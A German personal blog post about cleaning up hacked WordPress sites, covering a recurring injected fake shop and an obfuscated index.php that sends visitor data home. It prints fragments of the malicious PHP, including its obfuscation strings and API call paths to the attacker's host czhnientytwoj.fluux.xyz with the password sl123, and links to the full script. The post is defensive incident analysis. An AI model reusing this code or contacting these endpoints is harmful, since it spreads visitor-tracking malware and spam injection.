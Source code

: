 ```yaml
---
title: "Wordpress Hack"
date: "2021-08-01T19:30:00+02:00"
draft: false
author: "Marius Timmer"
keywords: ["Wordpress", "Hack", "Angriff", "Fakeshop", "Hetzner", "PHP"]
tags: ["Technik"]
description: "as"
---
```


Hin und wieder helfe ich einigen Leuten in meinem Umfeld beim Aufsetzen und Warten ihrer Internetseiten. So gucke ich immer wieder mal über die WordPress-Installation meiner Mutter und stelle sicher, dass sie auch ja alle Updates installiert hat. Einigen von euch stellen sich die Nackenhaare beim Namen Wordpress wahrscheinlich schon auf (_so geht es mir auch immer wieder_), aber am Ende bin ich da nur die ausführende Kraft. Um das einmal klar zu stellen: WordPress ist ein einziges Sicherheitsrisiko. Das verwundert natürlich nicht, wenn man bedenkt, wie weit verbreitet die Software ist. Sieht man aber einmal in den Code erkennt man, dass es bei der Entwicklung kein wirkliches Konzept gegeben hat oder es maximal versucht wurde nachträglich einzubauen. Da es sich aber mit seinen ganzen Erweiterungen um ein Gemeinschafts-Projekt handelt, ist es natürlich auch gar nicht so einfach, einheitlichen und guten Code zu schreiben. Abe rich wäre ja schon zufrieden, wenn die Datenbank-Verbindung nicht in einer globalen Variabel von überall aufzurufen wäre.

Der Fake-Shop
-------------
Anfang des Jahres meldete sich dann meine Mutter bei mir, da sich jemand bei ihr erkundigt hatte, wie der Status einer bestimmten Bestellung sei. Er habe ein Ersatzteil für seine Modell-Eisenbahn bestellt, bisher aber noch keine Reaktion erhalten. An dieser Stelle ist zu erwähnen, dass meine Mutter keinen Shop führt, sondern Fortbildungen anbietet.

Sehr schnell meldete sie sich also bei mir und bat mich um Hilfe. In der Tat war da ein Shop auf ihrer Seite, den keiner da hin gespielt hatte. Er sah auch wirklich nicht gut aus, da einzelne Fragmente (_Bilder, Preise, Beschreibungen_) einfach in die schon existierende Seite meiner Mutter eingebettet wurden. Wer darauf rein fällt, bettelt förmlich auch darum. Allerdings ist das natürlich dennoch ein großes Problem. Schließlich ist da ein Shop von irgendwelchen Betrügern auf der Seite meiner Mutter, die somit auch dafür (_juristisch_) verantwortlich ist.

Ich fand heraus, welche Dateien betroffen waren. Es existierte ein Verzeichnis (_`designthemes`_), welches ich einfach löschen musste. Zudem wurde die `.htaccess`-Datei modifiziert, so dass Gäste auf die Seiten im besagten Verzeichnis geleitet wurden. Der Säuberungsprozess selbst ging also recht schnell. Einen Tag später wurde ich aber wieder informiert, dass der Shop zurück sei. Das wunderte mich tatsächlich, beantwortete mir aber die Frage aller Fragen: Wie ist der Shop da hin gekommen?

Die erste Reaktion bei solchen "_Einbrüchen_" ist natürlich erst einmal der Austausch sämtlicher Passwörter. Um so erstaunter war ich dann aber, als ich hörte, dass der Shop zurück sei. Ich schloss somit nun aber aus, dass jemand die FTP-Zugangsdaten herausgefunden hat und sah mir die WordPress-Installation meiner Mutter noch einmal näher an. Tatsächlich fand ich ein kompromitiertes PHP-Skript und ein als gif-Datei getarntes Skript, welche beim Aufruf durch Nutzer immer wieder angestoßen wurde und unter Anderem den Shop wieder holte.

Bisher hatte ich noch nicht die Zeit gefunden, mir das Problem genauer anzusehen. Wenn ich aber schon nicht die Ursache nicht so schnell finden konnte, wollte ich zumindest die Symptome bekämpfen. Schließlich war meine Mutter hier rechtlich angreifbar und auch ihre Google-Platzierung litt natürlich darunter.
Was ich also machte, war ein kleines Skript zu schreiben, welches sich alle 5 Minuten per FTP mit dem Server verbindet und prüft ob das mysteriöse Verzeichnis existiert. Wenn es gefunden wird, wird es direkt gelöscht und die `.htaccess` wiederhergestellt. Das ist natürlich keine Dauerlösung, aber die hereinzufallenden Besucher erhielten beim Klick auf die immer weiter sinkenden Google-Ergebnisse nur noch <abbr title="Seite nicht gefunden">404</abbr>-Seiten, womit das gröbste Problem schon einmal gelöst war.

Nun geht das schon einige Monate so, ich weiß aber noch immer nicht, wo der Shop immer wieder her kommt. Die besagten beiden Skripte habe ich mehrfach gelöscht und an anderen Stellen konnte ich keine Hinweise auf weitere mysteriöse Dateien feststellen. Zumindest hatte ich einmal den gesamten Dateibaum heruntergeladen und durchsucht. Daher werde ich mir nun wohl den Code genauer ansehen. Ich sehe es als eine Art Schnitzeljagd mit PHP-Code.

Die Subdomain
-------------
Seit letzter Woche betreibt meine Mutter eine weitere WordPress-Instanz auf einer Subdomain. Von einem auf den anderen Tag war diese nicht mehr zu erreichen. Daher bat sie mich wieder um Hilfe. Zwei Stunden lang sah ich mir diverse Hetzner-Konfigurationen an und suchte den Grund, wieso die Subdomain nicht lief. Viel zu spät bemerkte ich erst, dass die Subdomain ansich funktionierte, allerdings gab das WordPress nur eine leere Antwort zurück.

Zuerst verdächtigte ich sämtliche WordPress-Erweiterungen irgendeinen Unfug zu treiben, zumal es eine Fehlermeldung in den Protokollen bezüglich veralteter Funktionsaufrufe gab. Dann sah ich mir aber _aus einer Laune heraus_ einfach mal die `index.php` an und sah, dass sie ganz merkwürdig aussah. Ganz viel "_Security by obscurity_" war da drin, was ich im Folgenden zeigen möchte.

Zuerst wird die Fehlerausgabe deaktiviert, weswegen meine Versuche mit der Apache-Konfiguration Fehlermeldungen auszugeben alle scheiterten. Anschließend werden merkwürdig benannte Strings definiert, die im Anschluss mit verschiedenen Offsets ausgelesen werden, woraus sich z.B. auch der Hostname des Control-Servers ergibt.
```php
//CX3_CX4
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
$OoooOO0 = 'czhnientytwoj';
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a";
$O = urldecode($OOOOOO);
```

Ganz grob lässt sich sagen, dass das Skript möglichst viele Informationen sammelt und dann an den eigenen Server weiter gibt (_nach Hause telefoniert_):

 - Dokumenten-Root-Verzeichnis
 - Angefragte URL
 - Hostname
 - Sprache
 - User-Agent (_benutzter Browser_)
 - Referrer (_Von wo der Nutzer weiter geleitet wurde_)
 - Verschlüsselte Kommunikation oder nicht (_`HTTP`/`HTTPS`_)
 - Ggf. abweichendes Protokoll
 - IP des Nutzers

Diese Daten werden gesammelt und anschließend an `czhnientytwoj.fluux.xyz` übermittelt. Den Host-Betreiber der Domain habe ich bereits informiert und eine Antwort steht noch aus. Beim nach Hause telefonieren werden die gesammelten Daten zum einen übertragen, aber vor allem wird auch die "_<abbr title="Schnittstelle">API</abbr>_" des angreifers angesprochen. Dabei wird jedes mal ein Passwort übertragen, dass im Klartext vorhanden und gar nicht mal so gut ist. Es lautet nämlich `sl123`. Das ist aber höchst wahrscheintlich nicht schlimm, weil der Angreifer das sowieso nur nutzt, um genau diese Befehle auszuführen, die in diesem Skript getätigt werden. Bei jedem Besuch der Seite wird somit der Angreifer informiert, dass die Seite meiner Mutter noch online ist und jede Veränderung der übertragenen Daten fällt auch sofort auf.

Insgesamt werden die folgenden (_API-_)Aufrufe getätigt:

```php
/Api/siteAllMap.php?page=' . $rUrl . '&pwd=sl123&domain=' . $typeName
/Api/siteUrlApi.php?stype=sitemap&num=6000&pr=' . $pr . '&url=' . $rUrl . '&domain=' . $typeName . '&ip=' . $client_ip
/jump.php?domain=' . $sName . '&page=' . $rUrl . '&bot=0&pr=' . $pr . '&refer=' . $referer . '&ip=' . $client_ip . '&lg=' . $Ooolg
/918.php?domain=' . $sName . '&page=' . $rUrl . '&bot=1&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
/org.php?domain=' . $sName . '&page=' . $rUrl . '&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
```

Somit weiß ich auf jeden Fall, wo ich in den kommenden Tagen ansetzen und meine Schnitzeljagd fortsetzen kann. Wenn ihr auch Interesse haben solltet, eröffne ich hiermit die Jagd. Das PHP-Skript könnt ihr als Text-Datei [hier](/attachments/index_hacked.txt) herunterladen.

Interessant finde ich auch, dass sich der _Angreifer_ nicht die Mühe gemacht hat, die beiden Zeilen am Ende anzufügen, durch die Wordpress aufgerufen wird. Wären diese beiden Zeilen dort, wäre der "_Hack_" vermutlich nicht einmal aufgefallen.
Am Ende frage ich mich nun aber noch immer, wie die beiden Angriffe funktionieren, damit ich das verhindern kann. esucher der Seite können eigentlich nichts hochladen. Auch wenn auf der Seite sogar die Kommentarfunktion ohne Captchas aktiviert war. Seit gestern ist das zumindest auch anders. Aber ich bezweifle, dass der Angriff jedes mal über die Funktion kommt. Es bleibt also spannend.